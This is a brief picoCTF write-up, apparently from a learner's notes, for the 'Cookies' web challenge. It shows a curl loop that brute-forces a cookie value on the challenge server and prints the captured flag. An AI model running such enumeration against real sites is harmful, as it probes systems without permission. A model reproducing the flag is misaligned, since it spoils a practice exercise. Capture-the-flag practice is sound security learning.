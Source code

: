 ## Objetivo
Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:54219/](http://mercury.picoctf.net:54219/)
## Solucion
yahirbalderas@Yahirs-MacBook-Pro ~ % for i in {0..30}; do curl -s http://mercury.picoctf.net:54219/check -H "Cookie: name=$i"; done | grep "picoCTF{"

            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_96cdadfd}</code></p>

## Notas adicionales

## Referencias